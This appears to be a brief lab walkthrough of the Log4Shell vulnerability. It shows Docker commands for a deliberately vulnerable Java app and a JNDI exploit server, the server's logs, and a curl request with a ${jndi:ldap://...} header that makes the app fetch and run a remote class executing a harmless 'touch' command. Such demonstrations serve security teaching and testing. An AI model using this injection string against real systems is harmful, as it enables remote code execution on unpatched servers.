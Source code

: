 docker run -p 8080:8080 --name vulnerable-app ghcr.io/igormv28/vulnerable-app <br>

```2022-01-09 23:52:08.343  INFO 1 --- [nio-8080-exec-2] HelloWorld                               : Received a request for API version Reference Class Name: foo```

docker run -P --name jndi ghcr.io/igormv28/jndi <br>
```[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Base64/dG91Y2ggQUFBQUFB
[!] Exception: UnSupportedPayloadType: Base64
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggQUFBQUFB
[+] Paylaod: command
[+] Command: touch AAAAAA
[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggQUFBQUFB with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggQUFBQUFB redirecting to http://127.0.0.1:8888/ExploitBFEFKMJgDb.class
```
docker inspect jndi |grep IPAddress <br>
          ```  "SecondaryIPAddresses": null,
            "IPAddress": "172.17.0.2",
                    "IPAddress": "172.17.0.2",```

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.2:1389/Basic/Command/Base64/dG91Y2ggQUFBQUFB}' <br>
```Hello, world!```

